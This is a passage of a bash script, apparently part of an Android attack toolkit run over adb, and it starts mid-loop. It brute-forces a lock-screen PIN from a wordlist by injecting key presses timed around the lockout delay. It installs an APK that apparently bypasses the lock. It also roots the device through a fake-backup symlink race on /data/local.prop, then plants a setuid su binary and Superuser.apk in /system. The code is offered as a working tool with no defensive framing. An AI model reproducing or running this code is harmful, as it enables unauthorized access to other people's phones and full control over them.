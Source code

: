          sleep 30
          adb shell input keyevent 82
          adb shell input swipe 407 1211 378 85
      fi
  done

elif [[ $select == 4 ]]; then
  adb shell input keyevent 26 #Pressing the lock button
  adb shell input keyevent 82
  echo "Brute LockScreen Using Wordlist"
  read -p "list -> " files
  for i in `cat $files`; do
      echo "Try =>" $i

      for (( j=0; j<${#i}; j++ )); do
          adb shell input keyevent $((`echo ${i:$j:1}`+7))
      done

      adb shell input keyevent 66

      if ! (( `expr $i + 1` % 5 )); then
          adb shell input keyevent 66
          echo "Delay Limit 30s"
          secs=$((1 * 30))
          while [ $secs -gt 0 ]; do
             echo -ne "$secs\033[0K\r"
             sleep 1
             : $((secs--))
          done

          sleep 30
          adb shell input keyevent 82
          adb shell input swipe 407 1211 378 85
      fi
  done

elif [[ $select == 5 ]]; then
  adb shell pm list packages | grep io.kos.antiguard 2>/dev/null > /dev/null

isInstalled=$?


if [ $isInstalled -eq 0 ]; then
	adb uninstall io.kos.antiguard
else
	adb install ./AntiGuard/AntiGuard.apk
	adb shell am start io.kos.antiguard/.unlock
fi

elif [[ $select == 6 ]]; then
  adb restore modules/fakebackup.ab

  command "while ! ln -s /data/local.prop /data/data/com.android.settings/a/file99 2>/dev/null; do :; done; echo 'Overwrote local.prop!';"

if command "cat /data/local.prop"
	then echo "Succesfully rooted!"
	echo "Requires a reboot..."
	adb reboot
	sleep 2
	adb wait-for-device
	command "mount -o rw,remount /system"
	adb push modules/su-static /system/xbin/su
	command "/data/local/tmp/busybox chown 0:0 /system/xbin/su"
	command "/data/local/tmp/busybox chmod 6777 /system/xbin/su"
	adb push modules/Superuser.apk /system/app/
	command "rm /data/local.prop"
	adb reboot
fi